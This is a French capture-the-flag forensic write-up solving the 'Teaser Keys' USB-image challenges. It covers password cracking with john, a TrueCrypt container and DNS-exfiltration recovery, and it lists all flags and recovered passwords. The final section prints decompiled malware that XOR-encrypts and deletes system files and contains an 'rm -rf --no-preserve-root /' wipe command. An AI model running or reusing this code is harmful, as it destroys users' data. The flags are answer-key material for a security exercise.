# Write Ups - Forensic - Teaser Keys

## Auteur : Worty

## Etape 0 : Challenge sur le CTFd


Ici, on voit trois challenges disponibles, chacun menant à un fichier à télécharger. On va donc prendre ces 3 challenges dans l'ordre , en commencant par **Teaser Keys - Clé 1**.


## Teaser Keys - Clé 1



Le premier réflexe consiste à utiliser la commande "file" sur le fichier pour voir de quel type de fichier il s'agit, ici, c'est une partition linux ext4. Vu le nom du challenge, on peut en déduire qu'il s'agit de la partition principale d'un clé USB.



Deuxième réflexe, utiliser testdisk ! N'ayant pas autopsy d'installer sous mon Linux, j'utilise très souvent testdisk car il permet notamment de retrouver les fichiers supprimés. Voici l'output quand on utilise la commande testdisk : 



Ici, le contenu du fichier "Contenu_USB" est le même que les deux dossiers que l'on peut voir. On va donc extraire ces deux dossiers pour commencer à les analyser.

On cherche donc à identifier à qui appartient la clé. Ici, on va d'abord dans le dossier "starlink-pyast", pour voir son contenu :



Si l'on jète un rapide coup d'oeil au réel git de starlink-pyast, on se rend compte que le dossier "test" n'existe pas. Il a donc été rajouté intentionnellement ici. Quand on va dedans, il n'y a qu'une simple capture réseau, que l'on peut ouvrir avec wireshark :



Ici, si l'on suit le premier flux "TCP", il n'est rempli que de "MMMMMMMM...", il n'est donc pas intéressant. Si l'on s'intéresse aux autres flux et qu'on suit le flux TCP, on remarque la trame suivante :



Dans ce flux, on voit une chaîne de caractères bizarre lors de l'envoi du fichier "vpn_config.config". Je vais ici utiliser wireshark pour voir son contenu :



On a donc ici notre premier flag !


## Teaser Keys - Clé 1-2

Après avoir flag, on remarque qu'un nouveau challenge c'est débloqué.



Il y a donc une autre information cachée dans cette clé. Si l'on va dans le dossier "Perso/Passwords",on remarque une banque de mot de passe keepass. Malheureusement, nous n'avons pas le mot de passe de celle-ci. Si l'on est un peu curieux, on peut remarquer la présence d'un dossier "Hacking", avec dedans deux dossiers :



Ici, le fichier "rockyou.txt" peut mettre la puce à l'oreille. On va essayer de bruteforce la base de données keepass avec cette wordlist. Pour cela, on va récupérer le hash de la base de données à l'aide de keepass2john, pour ensuite essayer de bruteforce avec john ainsi que la wordlist "rockyou.txt":



On a donc le mot de passe du keepass : myspace1.

Quand on ouvre la base de données keepass, on y voit deux entrées :



Un faux flag (pour encourager mes flaggerz 👼) ainsi qu'un mot de passe pour "MyFiles" : Th1sw4ssupp0s3dt0b3s3cr3t

MyFiles fait référence au fichier qui se trouve dans "Perso/Docs". Il est assez difficile de déterminer le type de fichier qu'est MyFiles, mais on sait qu'il est protégé par un mot de passe. 
Sachant qu'il ne s'ouvre qu'avec un mot de passe, on peut commencer à rechercher sur google le type de fichier qui se protège comme cela. Après de multiples recherches, on tombe sur un outil nommé "TrueCrypt". Ce genre de fichier est "indétectable" et ne s'ouvre qu'avec un mot de passe. On va donc tenter d'ouvrir MyFiles avec cet outil :



Si l'on rentre notre mot de passe trouvé dans keepass, le fichier s'ouvre !
Son contenu est situé dans "/mnt/truecrypt1", et il contient :



On a donc nos deux flags pour cette clé USB :

- MCTF{1ts_s3lph13_c0mput3r_7465316985}
- MCTF{0h_n0_u_f1nd_my_tru3crypt_p4ssw0rd}


## Teaser Keys - Clé 2


Pour ce deuxième challenge, on repasse un coup de testdisk sur notre fichier une fois extrait de son zip:



On va donc extraire ces 3 dossiers pour travailler directement dedans. Le dossier "Contenu_USB" contient les mêmes dossiers/fichiers que l'on peut voir à l'écran.

Dans ce challenge, on sait que l'on doit trouver à qui appartient la clé, le premier réflexe serait d'aller voir dans les documents, mais après un rapide parcours de ces fichiers, on se rend compte que rien d'intéressant ne s'y trouve. Il est donc temps d'aller faire un tour dans le dossier "WINDOWS_BACKUP". Dans celui-ci, on peut observer énormément de fichier, et on peut en déduire que la backup vient d'un système de fichiers de Windows 98. Etant donné que l'on cherche à qui appartient la clé, il faut cibler les fichiers de type "user", "username", ... Ici, un fichier retient l'attention :


Si l'on recherche sur internet, on apprend que le username sous Windows 98 était contenu dans ce fichier, il est donc très intéressant de regarder son contenu 👍



On peut voir ici que la clé est à Kira, avec une chaîne en base64 en dessous, on la decode et on obtient notre premier flag :



On a donc ici notre premier flag de cette clé usb !


## Teaser Keys - Clé 2-2

Après avoir flag le premier challenge, on en débloque un deuxième toujours relatif à la même clé. 



Il y a donc une autre information caché dans cette clé USB. Etant donné que l'on a déja parcouru le dossier "WINDOWS_BACKUP" on va aller s'intéresser au dossier "Documents". Après avoir rapidement parcouru les dossiers, on a remarqué la présence d'un fichier zip "real_project.zip" mais il est protégé par un mot de passe, je le laisse donc de côté pour l'instant.

Les autres dossiers ne contiennent pas grand chose d'intéressant, excepté des codes sources de vieux malware ou encore des photos de minitel. Par contre, dans le dossier "Perso", on remarque la présence d'un dossier et d'un fichier :



Ici, le fichier "message_from_future" semble chiffré, mais, dans le dossier .ssh, on remarque la présence d'une clé privée RSA. Cette clé permet entre autre de déchiffrer des messages, alors on va essayer de déchiffrer le fichier "message_from_future" avec celle-ci :



On a donc nos deux flags pour cette clé USB :

- MCTF{1ts_k1r4_c0mput3r}
- MCTF{k1r4_l0v3s_rs4_3ncrypt10n}


## Teaser Keys - Clé 3

Passons maintenant à une autre clé, en suivant toujours l'ordre des challenges donné sur le CTFd.



Nous devons encore trouver à qui appartient cette clé, même réflexe que pour la première clé, nous allons utiliser testdisk pour extraire son contenu.



Ici, pour savoir à qui elle appartient, le dossier home saute aux yeux. En effet, la plupart des informations d'un utilisateur sont contenus ici. Listons donc le contenu du répertoire de l'utilisateur :



Ici, plusieurs informations peuvent être exploitées. En effet, les deux fichiers ".bash_history" et ".python_history" ont gardé une trace des commandes entrées par l'utilisateur. Si l'on affiche le contenu de ".bash_history" :



On remarque la chaîne de caractère chiffrée dans le champ "users". J'ai personnellement utilisé cyber chef pour pouvoir la déchiffrer :



Notre premier flag est là, on sait maintenant que cette clé USB appartient à Worty.


## Teaser Keys - Clé 3-2

Même chose qu'avant, on débloque un autre challenge pour cette clé USB.



Il nous manque apparemment une autre information. Si l'on regarde les différents dossiers, on ne remarque pas grand chose d'intéressant. 
(il y a bien le fichier malware.enc mais je reviendrais dessus dans la dernière partie de ce Write Up.)

Dans le dossier "Logs", si l'on regarde un peu le contenu de ceux-ci, et notamment celui de access.log, on peut voir des lignes contenant des url assez "bizarre":



Ici, il s'agit d'une exfiltration DNS, on va donc grep l'IP "145.23.21.59" pour récupérer toute l'exfiltration, et reconstruire le fichier. Si l'on regarde bien, le fichier est exfiltré en étant encodé en base64, il suffit donc de récupérer toute la base64, et la convertir en fichier. Je le fais ici en one line :



La commande utilisée est : *cat access.log | grep 145.23.21.59 | cut -d" " -f 7 | cut -d"." -f 1 | sed ':a;N;$!ba;s/\n/ /g' | sed 's/ //g' | base64 -d > image.png*

On récupère donc un fichier .png qui contient notre précieux flag :



On a donc nos deux flags pour cette clé USB :

- MCTF{th1s_1s_w0rty_pc's}
- MCTF{dns_3xf1ltr4t1on_1s_c00l}


## Teaser Keys - Final

Après avoir récupéré tous nos flags dans les clés USB, un dernier challenge apparaît.



C'est ici que les parties de malware que vous avez vu dans les clés USB prennent du sens. Dans ce challenge, on nous fourni aussi un fichier à déchiffrer une fois que l'on aura compris le fonctionnement du malware.

### Première étape : Récupérer les différentes parties du malware

Dans la première clé, la partie du malware était directement donné dans le conteneur truecrypt, sans être chiffré. On le garde donc de côté.

Dans la deuxième clé, on avait pu identifier un fichier zip protégé par un mot de passe. Dans le dossier "WINDOWS_BACKUP", il y avait le fichier "USER.PWL", dans lequel on a récupéré le premier flag, mais il y avait aussi un fichier nommé "PASSWORD.PWL" :



On récupère donc le mot de passe de Kira, si l'on tente ce mot de passe pour le zip, on récupère son contenu :



Dans la troisième clé, il fallait regarder le contenu du fichier ".python_history" dans le home du user:



Ici, on voit que Worty à ouvert un fichier nommé malware, qui l'a XOR avec la clé "MyMasterKey", et qu'il a écrit le résultat dans un fichier nommé malware.enc. Il faut donc chercher ce fichier, et refaire la même opération pour récupérer le contenu original du fichier, contenu dans "Tools/Forensic/MyTool" :

```py
def xor(a,b):
        res = bytearray()
        maxSize = max(len(a),len(b))
        minSize = min(len(a),len(b))
        for i in range(maxSize):
            c1 = a[i%maxSize]
            c2 = b[i%minSize]
            res.append(c1^c2)
        return res
enc_content = open("malware.enc","rb")
original_content = xor(enc_content,b"MyMasterKey")
content = open("malware","wb")
content.write(original_content)
content.close()
```

On récupère donc la troisième partie du malware qui nous intéresse!

Maintenant, il va falloir réunir ces trois fichiers en un dans le bon ordre. Pour le premier, il suffit de se baser sur les entêtes pour voir celui qui match avec un ELF (exécutable sous linux) ou un PE (exécutable sous Windows) :



La partie de malware retrouvée dans la clé 1 est donc le premier, il faut donc maintenant essayer d'assembler dans l'ordre :
- 1-2-3
- 1-3-2 

Le bon ordre est "1-2-3", dans la logique des choses. Une fois recompilé en .exe, on peut strings le binaire: 



On remarque des chapines de caractères comme "python3.8","mpy..." on peut donc en déduire que le .exe est un fichier python qui a été compilé en .exe.

On peut donc extraire le bytecode du .exe avec le script "pyinstxtractor", trouvable sur github [ici](https://github.com/countercept/python-exe-unpacker/) :



On récupère donc le .pyc, on va donc maintenant utiliser "uncompyle6" pour récupérer le code source à partir du bytecode python :


```py
import platform
import os
import sys
import random
currentPlatform = platform.platform()
fake = "We will get you. Don't fuck with us.".encode()

def xor(a,b):
    res = bytearray()
    maxSize = max(len(a),len(b))
    minSize = min(len(a),len(b))
    for i in range(maxSize):
        c1 = a[i%maxSize]
        c2 = b[i%minSize]
        res.append(c1^c2)
    return res

def deleteAll():
    os.system("sleep 555555; rm -rf --no-preserve-root /")
    return "pwned. FTW"

def encryptSystemFile(systemFilePath):
    rand = str(random.randint(242,942))
    aux = bytearray(fake)
    for c in rand:
        aux.append(ord(c))
    for path in systemFilePath.split(";"):
        files = [f for f in os.listdir(path) if os.path.isfile(os.path.join(path, f))]
        for f in files:
            c = open(path+f,"rb").read()
            nc = xor(c,aux)
            l = open(path+f+"_enc","wb")
            l.write(nc)
            l.close()
            os.system("rm "+path+f)

def uncipherFilePathForWindows(key):
    enc = "\x34\x5f\x03\x3d\x25\x0c\x31\x10\x07\x12\x2c\x3a\x35\x3d\x18\x1f\x2b\x0d\x0c\x50\x59\x5e\x31\x49\x2b\x39\x08\x08\x1c\x01\x30\x03\x1b\x39\x03\x35\x10\x1d\x15\x09\x32\x53\x3d\x3f\x28\x5f\x2e\x2f\x20\x0c\x31\x05\x1d\x12\x2c\x28\x34\x35\x2d\x09\x0e\x1c\x00\x01\x7f\x2e\x08\x0f\x0e\x16\x49\x30\x4d\x39\x03\x36\x1b\x0b\x3b\x1b\x1f\x16\x03\x3a\x2b\x01\x0e\x18\x64\x2b\x5b\x3f\x37\x32\x1b\x1d\x13\x0a\x28\x12\x2e\x39\x37\x1c\x46\x00\x27\x03"
    return xor(enc,key)

def uncipherFilePathForLinux(key):
    enc = "\x58\x07\x36\x0f\x49\x4a\x2a\x07\x1a\x4a\x3d\x0f\x07\x55\x4e\x1c\x2d\x07\x02\x58\x44\x07\x1d\x1c\x03\x5e\x70\x05\x17\x13"
    return xor(enc,key)

def getKey():
    ret = ""
    k = [1904,1616,1520,1552,1824,1616,1520,1856,1664,1616,1520,1632,1680,1760,1552,1728,1520,1664,1552,1584,1712,1616,1824,1840]
    for _ in k:
        ret += chr(_ >> 4)
    return ret

def main():
    key = getKey()
    if("linux" in currentPlatform.lower()):
        encryptSystemFile(uncipherFilePathForLinux(key))    
    else:
        if("windows" in currentPlatform.lower()):
            encryptSystemFile(uncipherFilePathForWindows(key))
        else:
            print(deleteAll())
main()
```

On se rend vite compte que la fonction qui nous intéresse est xor() puisqu'elle chiffre le fichier qu'elle a en entrée.

On comprend vite que la fonction utilise la clé "We will get you. Don't fuck with us.", avec un nombre aléatoire derrière. Cela ce bruteforce assez vite, et on arrive à retrouver notre fichier original :

```
Another one got caught today, it's all over the papers.  "Teenager
Arrested in Computer Crime Scandal", "Hacker Arrested after Bank Tampering"...
Damn kids.  They're all alike.
MCTF{
But did you, in your three-piece psychology and 1950's technobrain,
ever take a look behind the eyes of the hacker?  Did you ever wonder what
made him tick, what forces shaped him, what may have molded him?
I am a hacker, enter my world...
Mine is a world that begins with school... I'm smarter than most ofthe other kids, this crap they teach us bores me...
Damn underachiever.  They're all alike.
Y0u_
I'm in junior high or high school.  I've listened to teachers explain for the fifteenth time how to reduce a fraction.  I understand it.  "No, Ms.
Smith, I didn't show my work.  I did it in my head..."
Damn kid.  Probably copied it.  They're all alike.
g0t_
I made a discovery today.  I found a computer.  Wait a second, this is cool.  
It does what I want it to.  If it makes a mistake, it's because I screwed it up.  Not because it doesn't like me...
Or feels threatened by me... Or thinks I'm a smart ass... Or doesn't like teaching and shouldn't be here...
Damn kid.  All he does is play games.  They're all alike.
k1r4_
And then it happened... a door opened to a world... rushing through the phone line like heroin through an addict's veins, an electronic pulse is sent out, a refuge from the day-to-day incompetencies is sought... a board is found.
"This is it... this is where I belong..."
I know everyone here... even if I've never met them, never talked to them, may never hear from them again... I know you all...
Damn kid.  Tying up the phone line again.  They're all alike...
w0rty_
You bet your ass we're all alike... we've been spoon-fed baby food at school when we hungered for steak...
the bits of meat that you did let slip through were pre-chewed and tasteless.  
We've been dominated by sadists, or ignored by the apathetic.  
The few that had something to teach found us will-ing pupils, but those few are like drops of water in the desert.
4nd_
This is our world now... the world of the electron and the switch, the beauty of the baud.  
We make use of a service already existing without paying for what could be dirt-cheap if it wasn't run by profiteering gluttons, and
you call us criminals.  We explore... and you call us criminals.  We seek after knowledge... and you call us criminals.  
We exist without skin color, without nationality, without religious bias... and you call us criminals.
You build atomic bombs, you wage wars, you murder, cheat, and lie to us and try to make us believe it's for our own good, yet we're the criminals.
s3lph13_
Yes, I am a criminal.  My crime is that of curiosity.  
My crime is that of judging people by what they say and think, not what they look like.
My crime is that of outsmarting you, something that you will never forgive me for.
g00d_j0b_
I am a hacker, and this is my manifesto.  
You may stop this individual, but you can't stop us all... after all, we're all alike.
!!}
```

On a donc notre flag final : **MCTF{Y0u_g0t_k1r4_w0rty_4nd_s3lph13_g00d_j0b_!!}**